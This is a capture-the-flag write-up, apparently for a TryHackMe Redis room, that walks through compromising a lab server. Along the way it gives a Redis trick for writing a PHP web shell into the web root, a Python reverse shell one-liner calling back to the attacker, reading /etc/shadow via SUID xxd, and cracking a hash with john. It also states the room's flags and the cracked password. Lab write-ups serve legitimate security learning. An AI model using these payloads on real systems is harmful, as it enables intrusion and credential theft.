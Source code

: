 <h2>Room description: ‘Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!’</h2>

Recon and Enumeration 

<h>Question 1: Scan the machine, how many ports are open?</h>

<h2>Recon and Enumeration</h2>

<h3>PortScanning</h3>

command:```sudo namp -sV -sC -P0 -p- <$iP>```

```
──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -oN nmap 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
                                                                                                                                                                                            
┌──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -p 6379,80 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
                                                                   
```
from the scan result above, it can be seen that there are only two ports open on the target system. port (80) which runs Apache HTTP Server, and Port (6379) which runs a DBMS service called redis.

![image](/posts/res/nmap.png)

Answering the Questions that were asked

_#What is the database management system running on?_

ans: redis

_#What port is the database management system running on?_

ans: 6379

_#What is the version of management system installed on the server?_

ans: 6.0.7

_#Compromise the machine and locate user.txt_

1. so i ran a directory bruteforce on the server but found nothing interesting so i had to lookup redis 6.0.7 dbms service on google 

it appears that we can check out the service by using the redis-cli command or by simply using netcat for connecting to the redis service.

from our Recon, we know that it is running a web server which Commonly stores it’s html data on /var/www/html path.

command: ```redis-cli <target_ip>```

![image](/posts/res/redis_cli.png)

Next, we'll specify the dbfilename with a filename of our selection. In this instance, we're designating it as "shell.php." Since it carries the ".php" extension, it's clear that we intend to insert PHP code into this file for execution.

command: ```config set dir /var/www/html```</br>
```config set dbfilename shell.php```</br>
```set test "<?php system($_GET['cmd']) ?>" ```</br>
```save```

with our RCE script ready we can hesd over to the path on our server
```http://<machine_ip>/shell.php?cmd=id```

![image](/posts/res/id.png)

Now we have our webshell, It's time to establish a reverse shell connection to the target machine.

first of all we must set up a netcat listener 
![image](/posts/res/nc.png)

run this reverse shell using our webshell

```http://<machine_ip>/shell.php?cmd=python -c ‘import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“<local_ip>”,3030));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(“/bin/sh”)’```

now we have our reverse shell.
![image](/posts/res/rev.png)

lets upgrade to get a better and  stable shell

```python -c 'import pty;pty.spawn("/bin/bash")';```




Going over to the home directory we list all files and folder, that got our first flag.

![image](/posts/res/flag.png)

flag: ``` thm{red1s_rce_w1thout_credent1als} ```</br>


3. What is the local user account password?
After running the `sudo -l` command, i found out that our user lacked sudo permissions. To further investigate, I used the following command to check for services with the SUID bit set:


command:```find / -perm -u=s -type f 2>/dev/null```

 *   / instructs the search to cover the entire file system.
 *   -perm is used to identify files with particular permissions.
 *   u=s specifies that we are looking for files where any  permission bits are set to 's'.
 *  -type f restricts the search to files only.
 *   2>/dev/null is added to suppress any error messages.

![image](/posts/res/bin.png)

after some few seconds we can see our result /usr/bin/xxd looks vulnerable so let's check out GTFObins.
  from my discovery i can see that the with this binary, we can only read files as root.

  Excellent! Now Let’s try this to read the /etc/shadow file to find the users password. 
 command: ```/usr/bin/xxd /etc/shadow | xxd -r```</br>

![image](/posts/res/shadow.png)

 now we have successfully read the /etc/shadow file we can see that a user Vianka has a password hash on the machine. lets save that hash to a txt file and try cracking it with john.</br>
 command:```john hash.txt --wordlist=<path_to_Word_list>rockyou.txt```
![image](/posts/res/pass.png)
password ```beautiful1```</br>

 we now have our password for the user vianka. lets attempts to login

 command: ```su vianka```</br>

 Let’s check what sudo privileges we have with sudo -l

 ![image](/posts/res/su.png)

 Great news! We now possess sudo privileges. To elevate our privileges, I'll execute the command `sudo su` and retrieve the `root.txt` file!</br>
 ![image](/posts/res/root.png)


Root Flag:```thm{xxd_pr1v_escalat1on}```

That will be all for today
<br> <br>
[Back To Home](../../index.md)



































